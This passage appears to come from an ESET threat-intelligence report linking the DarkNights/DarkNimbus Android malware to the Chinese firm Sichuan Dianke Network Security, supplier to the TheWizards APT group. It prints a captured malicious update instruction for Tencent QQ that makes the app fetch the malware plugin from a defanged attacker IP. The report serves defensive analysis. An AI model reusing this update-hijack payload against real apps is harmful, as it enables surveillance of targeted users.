 ## Links to Sichuan Dianke Network Security

In December 2024, Trend Micro researchers published an [analysis](https://www.trendmicro.com/en_gb/research/24/l/earth-minotaur.html) of the [MOONSHINE](https://citizenlab.ca/2019/09/poison-carp-tibetan-groups-targeted-with-1-click-mobile-exploits/) exploit kit and the DarkNimbus malware for Android devices. The toolset is used by a group Trend Micro tracks as Earth Minotaur and that targets primarily Tibetan and Uyghur communities. In January 2025, [Intelligence Online](https://www.intelligenceonline.com/surveillance--interception/2025/01/29/chinese-firm-behind-hacking-operations-against-uyghurs-and-tibetans-unveiled,110368855-evg) identified the Chinese company Sichuan Dianke Network Security Technology Co., Ltd., also known as UPSEC (Figure 13), as the supplier of the DarkNimbus malware.

![Figure 13. UPSEC’s website](https://web-assets.esetstatic.com/wls/2025/04-25/thewizards/figure-13.png)*Figure 13. UPSEC’s website*

ESET tracks the malware that Trend Micro named DarkNimbus as DarkNights (both for Windows and Android); amusingly, Trend Micro named the malware after the string DKNS present in the malware’s function names, and we did the same (**D**ar**kN**ight**s**) when we discovered the malware. In April 2025, NCSC UK published an [advisory](https://www.ncsc.gov.uk/news/advisory-badbazaar-moonshine) about the BADBAZAAR malware and MOONSHINE, also mentioning UPSEC in relation to Trend Micro’s research on Earth Minotaur.

While TheWizards uses a different backdoor for Windows (WizardNet), the hijacking server is configured to serve DarkNights to updating applications running on Android devices. While we have not seen any victims in ESET telemetry, we managed to obtain a malicious update instruction for the Android version of Tencent QQ:

```markup
{
        "packages": [{
                "versionCode": 90999,
                "rules": [],
                "versionRegion": "",
                "plugins": [{
                        "name": "AudioFirstPiece",
                        "packageId": "audiofirstpiece",
                        "sampleRate": 10000,
                        "sampleRateHigh": 12,
                        "url": "http://43.155.62[.]54:81/app/plugin-audiofirstpiece.ml",
                        "md5": "a961766c1b2e5133d589be1cf47e3338"
                }]
        }]
}
```

The file plugin-audiofirstpiece.ml is a ZIP archive that only contains a classes.dex file, which is DarkNights for Android. This indicates that Dianke Network Security is a digital quartermaster to TheWizards APT group.

ESET continues tracking TheWizards independently of Earth Minotaur. While both threat actors use DarkNights/DarkNimbus, according to ESET telemetry TheWizards has focused on different targets and uses infrastructure and additional tools (for example, Spellbinder and WizardNet) not observed to be used by Earth Minotaur.
